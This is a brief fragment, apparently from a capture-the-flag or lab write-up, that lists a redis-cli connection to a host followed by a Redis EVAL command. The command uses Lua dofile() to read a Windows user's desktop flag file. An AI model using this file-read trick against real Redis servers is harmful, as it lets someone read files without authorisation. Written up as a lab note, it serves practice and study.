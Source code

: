 # database

# redis

redis-cli -h 10.10.14.70 

eval "dofile('c:\\\\users\\\\enterprise-security\\\\desktop\\\\user.txt')" 0
